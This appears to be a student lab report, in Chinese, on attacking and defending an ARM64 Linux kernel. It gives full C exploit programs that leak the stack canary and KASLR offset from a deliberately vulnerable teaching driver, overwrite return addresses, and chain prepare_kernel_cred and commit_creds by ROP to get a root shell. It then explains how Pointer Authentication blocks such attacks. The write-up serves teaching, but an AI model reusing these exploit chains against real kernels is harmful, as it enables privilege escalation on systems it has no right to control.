

# Linux内核漏洞攻防-ROP攻击与防护

---

## 1 实验目的

- 了解 ARM64 栈的布局，学习 buffer overflow 漏洞的原理与利用方式
- 了解 stack canary 与 KASLR 等抵御 buffer overflow 漏洞的原理，并学会如何绕过这些防护机制
- 学习 return-oriented programming (ROP) 攻击原理，获取 Linux 内核的 root 权限
- 学习 ARMV8.3 PA (Pointer Authentication)原理，了解 Linux 内核如何利用 PA 机制防止 ROP 攻击

## 2 实验工具

- qemu-system-aarch64
- gdb-multiarch
- aarch64-linux-gnu-objdump
- aarch64-linux-gnu-gcc

## 3 实验准备

## 3.1 实验环境

选择在 WSL 中进行实验，对于缺失的环境进行了配置。



## 3.2 GDB调试内核

我们对于`start.sh`脚本进行修改关闭KASLR机制，来允许gdb进行下断点

```python
#!/usr/bin/env bash
set -euo pipefail

qemu-system-aarch64 -M virt \
  -cpu max \
  -smp 2 \
  -m 512 \
  -kernel ./Image \
  -nographic \
  -append "console=ttyAMA0 root=/dev/ram rdinit=/sbin/init nokaslr" \
  -initrd ./rootfs.cpio.gz \
  -fsdev local,security_model=passthrough,id=fsdev0,path=./share \
  -device virtio-9p-pci,id=fs0,fsdev=fsdev0,mount_tag=hostshare \
  -s
```

运行脚本并在另一个shell进行连接开启gdb调试，随后打开KASLR进行后续实验


## 4 实验任务

### 4.1 Task1: 绕过 stack canary 和 KASLR

我们找到存在漏洞的zjubof_write4函数，核心漏洞代码我们用加粗标记

```c
ssize_t zjubof_write4(char *buffer,size_t len)
{
    struct cmd_struct cmd;   
    printk("zjubof_write4\n");
    memset(cmd.command, 0, 16);
    cmd.length = len;
    if(cmd.length > 16)
        cmd.length = 16;
    **memcpy(cmd.command, buffer, len);
    memcpy(prev_cmd,cmd.command, cmd.length);**
    printk("cmd :%s len:%ld\n", cmd.command,len);
    return 0;
}
```

在第一个memcpy处，由于使用了原始的len，我们提供的超过限制长度的内容会被一并写入cmd.command，我们可以伪造额外的8字节输入来修改cmd结构体中相邻的cmd.length的值，这儿我们伪造了一个16字节A+小段序48的payload来覆写该值

```c
    memset(payload, 'A', sizeof(payload));
    memcpy(payload + 16, &forged_len, sizeof(forged_len));
    n = write(fd, payload, sizeof(payload));
```

那么随后在第二个memcpy的位置，由于cmd.length已经被我们成功改写，此时cmd上方栈内容就会被我们一并带出保存到全局变量prev_cmd中，随后我们再通过读接口读回prev_cmd即可完成信息泄露，其中stack canary位于24-31字节处，lr位于40-47字节处

```c
    memset(leak, 0, sizeof(leak));
    n = read(fd, leak, sizeof(leak));
    canary = load_u64(leak + 24);
    saved_lr = load_u64(leak + 40);
```

为了获取上述lr对应的链接地址，我们执行`aarch64-linux-gnu-objdump --disassemble=zjubof_write2 vmlinux` 反汇编zjubof_write2函数，找到其中bl指令，那么返回地址即为该条指令的pc+4也就是0xffff800010de7d0c，进行相减即得到KASLR偏移值


```c
#define ZJUBOF_WRITE2_RET_LINK_ADDR 0xffff800010de7d0cULL
kaslr_off = saved_lr - ZJUBOF_WRITE2_RET_LINK_ADDR;
printf("[+] canary   : 0x%016llx\n", (unsigned long long)canary);
printf("[+] saved lr : 0x%016llx\n", (unsigned long long)saved_lr);
printf("[+] KASLR off: 0x%016llx\n", (unsigned long long)kaslr_off);
```

成功实现攻击结果如下，附上完整的攻击代码`task1.c`


```c
#include <errno.h>
#include <fcntl.h>
#include <stdint.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

#define DEV_PATH "/dev/zjubof"
#define LEAK_SIZE 48

/*
 * This is the link-time return address right after:
 *   bl zjubof_write3
 * in zjubof_write2.
 */
#define ZJUBOF_WRITE2_RET_LINK_ADDR 0xffff800010de7d0cULL

static uint64_t load_u64(const unsigned char *p) {
    uint64_t v = 0;
    memcpy(&v, p, sizeof(v));
    return v;
}

int main(void) {
    int fd;
    unsigned char payload[24];
    unsigned char leak[LEAK_SIZE];
    uint64_t forged_len = LEAK_SIZE;
    uint64_t canary;
    uint64_t saved_lr;
    uint64_t kaslr_off;
    ssize_t n;

    fd = open(DEV_PATH, O_RDWR);
    if (fd < 0) {
        perror("open /dev/zjubof failed");
        return 1;
    }

    memset(payload, 'A', sizeof(payload));
    memcpy(payload + 16, &forged_len, sizeof(forged_len));

    n = write(fd, payload, sizeof(payload));
    if (n < 0) {
        perror("write failed");
        close(fd);
        return 1;
    }

    memset(leak, 0, sizeof(leak));
    n = read(fd, leak, sizeof(leak));
    if (n < 0) {
        perror("read failed");
        close(fd);
        return 1;
    }
    /*
     * NOTE:
     * This driver returns copy_to_user()'s return value, not bytes read.
     * So successful read usually returns 0, while data is still copied out.
     */
    if (n != 0 && n != LEAK_SIZE) {
        fprintf(stderr, "unexpected read return: %zd\n", n);
        close(fd);
        return 1;
    }

    /*
     * Stack layout in zjubof_write4 leak window:
     * leak[24..31] -> stack canary   (sp + 0x48)
     * leak[40..47] -> saved lr       (sp + 0x58, from caller frame)
     */
    canary = load_u64(leak + 24);
    saved_lr = load_u64(leak + 40);
    kaslr_off = saved_lr - ZJUBOF_WRITE2_RET_LINK_ADDR;

    printf("[+] canary   : 0x%016llx\n", (unsigned long long)canary);
    printf("[+] saved lr : 0x%016llx\n", (unsigned long long)saved_lr);
    printf("[+] KASLR off: 0x%016llx\n", (unsigned long long)kaslr_off);

    close(fd);
    return 0;
}

```

### 4.2 Task2: 修改 return address，获取 root 权限

在Task1的基础上，我们的，我们首先获得额外的两个需要的值，其一是first_level_gadget的第一行地址，执行和上述相似的指令`aarch64-linux-gnu-objdump --disassemble=first_level_gadget vmlinux` 找到第一行0xffff8000107abd78，我们需要它的下一条指令地址0xffff8000107abd7c（跳过原因在**思考题**中给出）


第二个值是zju_write2的正常返回地址，我们运行`aarch64-linux-gnu-objdump --disassemble=zjubof_write vmlinux` 可以查到，为bl指令的下一条指令pc 0xffff8000107abe54，我们定义相应的宏变量，并通过获取到的KASLR计算实际运行时的地址


```c
#define ZJUBOF_WRITE2_RET_LINK_ADDR       0xffff800010de7d0cULL
#define FIRST_LEVEL_GADGET_ENTRY_LINK     0xffff8000107abd7cULL /* skip prologue */
#define ZJUBOF_WRITE_RET_AFTER_CALL_LINK  0xffff8000107abe54ULL
kaslr_off = saved_lr - ZJUBOF_WRITE2_RET_LINK_ADDR;
gadget_entry = FIRST_LEVEL_GADGET_ENTRY_LINK + kaslr_off;
zjubof_write_ret = ZJUBOF_WRITE_RET_AFTER_CALL_LINK + kaslr_off;
```

随后即可开始我们的覆写操作，我们需要覆盖以下内容，第一阶段覆盖的cmd.length(如果填充为字符很可能导致段错误)，canary（保持不变以通过校验），zjubof_write3的返回地址（返回到first_level_gadget函数），zjubof_write2的返回地址（正常返回到zjubof_write来实现控制流闭环），这里我们还需要对栈上的相对位置进行一个计算，我们分析反汇编出的代码(截取了关键段落)

```python
ffff800010de7cb4 <zjubof_write2>:
ffff800010de7cb4:       d10883ff        sub     sp, sp, #0x220
ffff800010de7cb8:       d2803c02        mov     x2, #0x1e0                      // #480
ffff800010de7cbc:       a9007bfd        stp     x29, x30, [sp]
ffff800010de7cc0:       910003fd        mov     x29, sp
ffff800010de7c78 <zjubof_write3>:
ffff800010de7c78:       a9be7bfd        stp     x29, x30, [sp, #-32]!
ffff800010de7c7c:       910003fd        mov     x29, sp
ffff800010de7c80:       a90153f3        stp     x19, x20, [sp, #16]
ffff800010de7bc8 <zjubof_write4>:
ffff800010de7bc8:       a9bb7bfd        stp     x29, x30, [sp, #-80]!
ffff800010de7bcc:       910003fd        mov     x29, sp
ffff800010de7bd0:       a90153f3        stp     x19, x20, [sp, #16]
ffff800010de7bfc:       9100c3e0        add     x0, sp, #0x30
```

如上，sp3=sp2-32，sp4=sp3-80⇒sp2=sp4+112，sp3=sp4+80⇒lr2=*(sp2+8)=*(sp4+120)，lr3=*(sp3+8)=*(sp4+88)

我们的buffer基址为sp4+48(0x30)，那么这两个需要覆写的地址分别位于40-47字节和72-79字节完成的覆写代码如下

```c
    memset(exp, 'B', sizeof(exp));
    /* Keep cmd.length sane after overflow, avoid crashing in memcpy(prev_cmd, ...) */
    store_u64(exp + 16, 16);
    store_u64(exp + 24, canary);
    store_u64(exp + 40, gadget_entry);
    store_u64(exp + 72, zjubof_write_ret);
```

运行代码，可以看到运行后成功完成提权获得root权限（$变为#）


此时可以读取`/root/flag.txt` 来获取flag为`sysde655sEc` ，给出攻击的完整代码task2.c


```python
#include <fcntl.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define DEV_PATH "/dev/zjubof"
#define LEAK_SIZE 48

/* Link-time addresses from vmlinux */
#define ZJUBOF_WRITE2_RET_LINK_ADDR       0xffff800010de7d0cULL
#define FIRST_LEVEL_GADGET_ENTRY_LINK     0xffff8000107abd7cULL /* skip prologue */
#define ZJUBOF_WRITE_RET_AFTER_CALL_LINK  0xffff8000107abe54ULL

static uint64_t load_u64(const unsigned char *p) {
    uint64_t v = 0;
    memcpy(&v, p, sizeof(v));
    return v;
}

static void store_u64(unsigned char *p, uint64_t v) {
    memcpy(p, &v, sizeof(v));
}

int main(void) {
    int fd;
    ssize_t n;
    unsigned char leak_payload[24];
    unsigned char leak_buf[LEAK_SIZE];
    unsigned char exp[104];
    uint64_t forged_len = LEAK_SIZE;
    uint64_t canary;
    uint64_t saved_lr;
    uint64_t kaslr_off;
    uint64_t gadget_entry;
    uint64_t zjubof_write_ret;

    fd = open(DEV_PATH, O_RDWR);
    if (fd < 0) {
        perror("open");
        return 1;
    }

    /* Stage 1: leak canary + saved lr */
    memset(leak_payload, 'A', sizeof(leak_payload));
    store_u64(leak_payload + 16, forged_len);

    n = write(fd, leak_payload, sizeof(leak_payload));
    if (n < 0) {
        perror("leak write");
        close(fd);
        return 1;
    }

    memset(leak_buf, 0, sizeof(leak_buf));
    n = read(fd, leak_buf, sizeof(leak_buf));
    if (n < 0) {
        perror("leak read");
        close(fd);
        return 1;
    }

    canary = load_u64(leak_buf + 24);
    saved_lr = load_u64(leak_buf + 40);
    kaslr_off = saved_lr - ZJUBOF_WRITE2_RET_LINK_ADDR;
    gadget_entry = FIRST_LEVEL_GADGET_ENTRY_LINK + kaslr_off;
    zjubof_write_ret = ZJUBOF_WRITE_RET_AFTER_CALL_LINK + kaslr_off;

    printf("[+] canary      : 0x%016llx\n", (unsigned long long)canary);
    printf("[+] saved lr    : 0x%016llx\n", (unsigned long long)saved_lr);
    printf("[+] KASLR off   : 0x%016llx\n", (unsigned long long)kaslr_off);
    printf("[+] gadget entry: 0x%016llx\n", (unsigned long long)gadget_entry);
    printf("[+] write ret   : 0x%016llx\n", (unsigned long long)zjubof_write_ret);

    /*
     * Stage 2 payload layout relative to zjubof_write4::cmd.command:
     * +0x18: zjubof_write4 canary
     * +0x28: zjubof_write3 saved lr -> first_level_gadget+4
     * +0x48: zjubof_write2 saved lr -> zjubof_write+0x8c
     */
    memset(exp, 'B', sizeof(exp));
    /* Keep cmd.length sane after overflow, avoid crashing in memcpy(prev_cmd, ...) */
    store_u64(exp + 16, 16);
    store_u64(exp + 24, canary);
    store_u64(exp + 40, gadget_entry);
    store_u64(exp + 72, zjubof_write_ret);

    n = write(fd, exp, sizeof(exp));
    if (n < 0) {
        perror("exploit write");
        close(fd);
        return 1;
    }

    printf("[+] write returned, uid=%d\n", getuid());
    system("/bin/sh");

    close(fd);
    return 0;
}

```

### 4.3 Task3: ROP 获取 root 权限

攻击的思路是进行多段ROP，思路是类似的但是需要正确计算多个函数的返回地址位置。首先，我们在之前已获得参数的基础上找新需要的参数，这里直接给出了


我们新获取的参数以及相应实际运行地址计算如下

```python
#define ZJUBOF_WRITE2_RET_LINK_ADDR      0xffff800010de7d0cULL
#define PREPARE_KERNEL_CRED_LINK         0xffff8000100a6210ULL
#define COMMIT_CREDS_LINK                0xffff8000100a5f68ULL
#define SECOND_LEVEL_GADGET_LINK         0xffff8000107abdb0ULL
#define ZJUBOF_WRITE_RET_AFTER_CALL_LINK 0xffff8000107abe54ULL
prepare_entry = PREPARE_KERNEL_CRED_LINK + kaslr_off + 4;
commit_entry = COMMIT_CREDS_LINK + kaslr_off + 4;
second_gadget = SECOND_LEVEL_GADGET_LINK + kaslr_off;
write_ret = ZJUBOF_WRITE_RET_AFTER_CALL_LINK + kaslr_off;
```

随后我们构造payload，这儿对新增的栈上返回地址计算做一下说明，根据task2我们已经获得了lr3与lr2的位置，我们还需要zjubof_write的lr和（我们理一下我们的ROP顺序，首先替换*（sp3+8）=*（buffer+40），sp回到sp2处，zjubof_write3返回进入prepare_kernel_cred；以*（sp2+8）=*（buffer+72）作为返回地址，sp回到sp2+32处，随后返回进入commit_creds；以*（sp+8）=*（sp2+40）=*（buffer+104）作为返回地址，sp回到sp+48=sp2+80处，随后返回进入second_level_gadget；以*（sp+8）=*（sp2+88）=*（buffer+152）作为返回地址，sp回到sp+0x220处

```c
ffff8000100a6210 <prepare_kernel_cred>:
ffff8000100a63ac:       a94153f3        ldp     x19, x20, [sp, #16]
ffff8000100a63b0:       a8c27bfd        ldp     x29, x30, [sp], #32
ffff8000100a63b4:       d65f03c0        ret
ffff8000100a5f68 <commit_creds>:
ffff8000100a61cc:       a94153f3        ldp     x19, x20, [sp, #16]
ffff8000100a61d0:       f94013f5        ldr     x21, [sp, #32]
ffff8000100a61d4:       a8c37bfd        ldp     x29, x30, [sp], #48
ffff8000100a61d8:       d65f03c0        ret
```

那么我们需要在40-47字节填充prepare_entry，72-79字节填充commit_entry，104-111字节填充second_gadget_entry，152-159字节填充write_ret，编写代码如下

```c
		memset(exp, 'C', sizeof(exp));
    store_u64(exp + 16, 16);            /* keep memcpy length sane */
    store_u64(exp + 24, canary);        /* bypass stack canary check */
    store_u64(exp + 40, prepare_entry); /* z3 ret -> prepare+4 */
    store_u64(exp + 72, commit_entry);  /* prepare ret -> commit+4 */
    store_u64(exp + 104, second_gadget);/* commit ret -> second_level_gadget */
    store_u64(exp + 152, write_ret);    /* second gadget ret -> zjubof_write+0x8c */
```

运行并成功获取root权限，在root权限下查看flag内容


完整的多跳ROP代码`task3.c`如下

```c
#include <fcntl.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define DEV_PATH "/dev/zjubof"
#define LEAK_SIZE 48

/* Link-time addresses from vmlinux */
#define ZJUBOF_WRITE2_RET_LINK_ADDR      0xffff800010de7d0cULL
#define PREPARE_KERNEL_CRED_LINK         0xffff8000100a6210ULL
#define COMMIT_CREDS_LINK                0xffff8000100a5f68ULL
#define SECOND_LEVEL_GADGET_LINK         0xffff8000107abdb0ULL
#define ZJUBOF_WRITE_RET_AFTER_CALL_LINK 0xffff8000107abe54ULL

static uint64_t load_u64(const unsigned char *p) {
    uint64_t v = 0;
    memcpy(&v, p, sizeof(v));
    return v;
}

static void store_u64(unsigned char *p, uint64_t v) {
    memcpy(p, &v, sizeof(v));
}

int main(void) {
    int fd;
    ssize_t n;
    unsigned char leak_payload[24];
    unsigned char leak_buf[LEAK_SIZE];
    unsigned char exp[176];
    uint64_t forged_len = LEAK_SIZE;
    uint64_t canary;
    uint64_t saved_lr;
    uint64_t kaslr_off;
    uint64_t prepare_entry;
    uint64_t commit_entry;
    uint64_t second_gadget;
    uint64_t write_ret;

    fd = open(DEV_PATH, O_RDWR);
    if (fd < 0) {
        perror("open");
        return 1;
    }

    /* Stage 1: leak canary + saved lr */
    memset(leak_payload, 'A', sizeof(leak_payload));
    store_u64(leak_payload + 16, forged_len);

    n = write(fd, leak_payload, sizeof(leak_payload));
    if (n < 0) {
        perror("leak write");
        close(fd);
        return 1;
    }

    memset(leak_buf, 0, sizeof(leak_buf));
    n = read(fd, leak_buf, sizeof(leak_buf));
    if (n < 0) {
        perror("leak read");
        close(fd);
        return 1;
    }

    canary = load_u64(leak_buf + 24);
    saved_lr = load_u64(leak_buf + 40);
    kaslr_off = saved_lr - ZJUBOF_WRITE2_RET_LINK_ADDR;

    /*
     * Use +4 entries to avoid the first stp prologue instruction
     * when these functions are entered via ret (not bl).
     */
    prepare_entry = PREPARE_KERNEL_CRED_LINK + kaslr_off + 4;
    commit_entry = COMMIT_CREDS_LINK + kaslr_off + 4;
    second_gadget = SECOND_LEVEL_GADGET_LINK + kaslr_off;
    write_ret = ZJUBOF_WRITE_RET_AFTER_CALL_LINK + kaslr_off;

    printf("[+] canary       : 0x%016llx\n", (unsigned long long)canary);
    printf("[+] saved lr     : 0x%016llx\n", (unsigned long long)saved_lr);
    printf("[+] KASLR off    : 0x%016llx\n", (unsigned long long)kaslr_off);
    printf("[+] prepare+4    : 0x%016llx\n", (unsigned long long)prepare_entry);
    printf("[+] commit+4     : 0x%016llx\n", (unsigned long long)commit_entry);
    printf("[+] second gadget: 0x%016llx\n", (unsigned long long)second_gadget);
    printf("[+] write ret    : 0x%016llx\n", (unsigned long long)write_ret);

    /*
     * Overflow base is zjubof_write4::cmd.command (sp + 0x30).
     *
     * Key offsets:
     * +0x10: zjubof_write4 cmd.length
     * +0x18: zjubof_write4 canary
     * +0x28: zjubof_write3 saved lr (first ret target)
     *
     * zjubof_write2 frame starts at +0x40:
     * +0x48: used as return slot for prepare (+8 in z2 frame)
     * +0x68: used as return slot for commit  (+40 in z2 frame)
     * +0x98: used as return slot for second_level (+88 in z2 frame)
     */
    memset(exp, 'C', sizeof(exp));
    store_u64(exp + 16, 16);            /* keep memcpy length sane */
    store_u64(exp + 24, canary);        /* bypass stack canary check */
    store_u64(exp + 40, prepare_entry); /* z3 ret -> prepare+4 */
    store_u64(exp + 72, commit_entry);  /* prepare ret -> commit+4 */
    store_u64(exp + 104, second_gadget);/* commit ret -> second_level_gadget */
    store_u64(exp + 152, write_ret);    /* second gadget ret -> zjubof_write+0x8c */

    n = write(fd, exp, sizeof(exp));
    if (n < 0) {
        perror("exploit write");
        close(fd);
        return 1;
    }

    printf("[+] write returned, uid=%d\n", getuid());
    system("/bin/sh");

    close(fd);
    return 0;
}

```

### 4.4 Task4: Linux 内核对 ROP 攻击的防护

我们先查看zjubof_write3函数在PA支持开启前的效果，可以看到函数结尾应该是普通ret


```python
ffff800010de7c78 <zjubof_write3>:
ffff800010de7c78:	a9be7bfd 	stp	x29, x30, [sp, #-32]!
ffff800010de7c7c:	910003fd 	mov	x29, sp
ffff800010de7c80:	a90153f3 	stp	x19, x20, [sp, #16]
ffff800010de7c84:	aa0003f3 	mov	x19, x0
ffff800010de7c88:	aa0103f4 	mov	x20, x1
ffff800010de7c8c:	d0003720 	adrp	x0, ffff8000114cd000 <kallsyms_token_index+0xd75d0>
ffff800010de7c90:	91094000 	add	x0, x0, #0x250
ffff800010de7c94:	97ffe4de 	bl	ffff800010de100c <_printk>
ffff800010de7c98:	aa1403e1 	mov	x1, x20
ffff800010de7c9c:	aa1303e0 	mov	x0, x19
ffff800010de7ca0:	97ffffca 	bl	ffff800010de7bc8 <zjubof_write4>
ffff800010de7ca4:	d2800000 	mov	x0, #0x0                   	// #0
ffff800010de7ca8:	a94153f3 	ldp	x19, x20, [sp, #16]
ffff800010de7cac:	a8c27bfd 	ldp	x29, x30, [sp], #32
ffff800010de7cb0:	d65f03c0 	ret
```

随后我们开启PA支持并重新编译内核，对于该函数的汇编结果如下

```python
0000000000000150 <zjubof_write3>:
 150:	d503245f 	bti	c
 154:	d503233f 	paciasp
 158:	a9be7bfd 	stp	x29, x30, [sp, #-32]!
 15c:	910003fd 	mov	x29, sp
 160:	a90153f3 	stp	x19, x20, [sp, #16]
 164:	aa0003f3 	mov	x19, x0
 168:	aa0103f4 	mov	x20, x1
 16c:	90000000 	adrp	x0, 0 <zjubof_release>
 170:	91000000 	add	x0, x0, #0x0
 174:	94000000 	bl	0 <_printk>
 178:	aa1403e1 	mov	x1, x20
 17c:	aa1303e0 	mov	x0, x19
 180:	94000000 	bl	94 <zjubof_write4>
 184:	d2800000 	mov	x0, #0x0                   	// #0
 188:	a94153f3 	ldp	x19, x20, [sp, #16]
 18c:	a8c27bfd 	ldp	x29, x30, [sp], #32
 190:	d50323bf 	autiasp
 194:	d65f03c0 	ret
```

我们对于汇编结果保留指令序列进行diff比较，效果如下


我们对于重点的代码变化做出解释（不考虑地址字段变化）

- 新增`bti c`：这是 BTI（Branch Target Identification）落点标记，约束间接跳转目标是否合法，减少任意落点 gadget 利用空间
- 新增 `paciasp`（函数入口）：用当前 `SP` 和密钥给 `LR` 做 PAC 签名。
- 新增 `autiasp`（函数返回前）：在 `ret` 前对 `LR` 做认证；若返回地址被篡改则认证失败，无法按攻击者预期返回。

PA机制阻断ROP攻击的完整原因在思考题中给出

## 5 思考题

- 为什么linux canary的最低位byte总是 `\00`？
    
    因为字符串函数一般遇到\x00就会停止，canary这样设置可以保证打印到低位时就被截断，从而高位内容无法被打印而不会泄露
    
- 在ARM64的ROP中，在 `zjubof_write4`中overflow覆盖到的返回地址，会在什么时候/执行到哪个函数哪一行的时候 被load到pc寄存器？
    
    zjubof_write3执行ret时，pc寄存器load x30存储的返回地址
    
- 在Task2中，为什么在exp中直接覆盖返回地址为 `first_level_gadget` 的汇编第一行地址，会造成kernel在运行到这一行的时候产生panic？并写出造成这个panic的触发链。
    
    因为第一行是`stp x29, x30, [sp, #-16]!` 为prologue，会修改栈的布局，如果从第一行进入，sp先被额外减了16，后续的内联汇编就会从错误偏移处取值并ret到非法地址，触发内核异常
    
    触发链如下：
    
    1. `zjubof_write4`溢出覆盖 `zjubof_write3`保存的返回地址  
    2. `zjubof_write3` 末尾 `ret`跳到 `first_level_gadget``第一行  
    3. 第一行 `stp ... [sp,#-16]!`破坏原本预期的栈对齐/偏移  
    4. gadget 后续按“错误栈位置”恢复寄存器与返回地址  
    5. `ret`跳转到无效地址 -> 内核 panic
    
- Linux 内核是如何利用 ARM PA 来防御 ROP 攻击的
    
    ROP 攻击本质上依赖篡改栈上的返回地址（LR），使控制流跳转到攻击者布置的 gadget 链；PA 机制将返回地址完整性绑定到硬件密钥与上下文（如 SP）：在函数进入时，`paciasp` 对 LR 生成 PAC 签名并写回；函数返回前，`autiasp` 使用同一上下文验证签名；若 LR 被攻击者覆盖，签名不匹配，认证失败，返回地址不可被正常利用，控制流劫持中断。因此，即使漏洞仍可覆盖栈内容，攻击者也难以构造“可通过认证”的伪造返回地址，传统 ROP 链会失效或触发异常。